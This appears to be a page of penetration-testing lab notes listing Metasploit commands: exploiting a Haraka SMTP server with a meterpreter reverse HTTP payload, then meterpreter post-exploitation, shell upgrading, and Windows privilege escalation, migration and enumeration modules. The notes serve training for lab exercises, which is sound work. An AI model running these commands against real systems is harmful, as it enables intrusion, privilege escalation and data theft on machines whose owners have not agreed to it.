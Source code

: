 **Exploiting a vulnerable SMTP server**
```
search haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
```

## Exploitation
### Post exploitation fundamentals
**Meterpreter fundamentals**
```
getuid
background
sessions -h

edit flag2
download flag5.zip
checksum md5 /bin/bash
getenv PATH
search -d /usr/bin -f *backdoor*
search -f *.jpg

cmd

ps
migrate 123

execute -f ifconfig
```

**Upgrading command shells to meterpreter shells**
```
search shell_to_meterpreter
set SESSION 1
set LHOST eth1

sessions -u 1
```

### Windows Post Exploitation
**Windows post exploitation modules**
```
search rejetto

sysinfo
getuid
help
getsystem
getuid
show_mount
ps
migrate 2212
cd C:\\
download flag.txt

search migrate
use post/windows/manage/migrate
search win_privs
search enum_logged_on
search checkvm
search enum_applications
search type:post platform:windows enum_av
```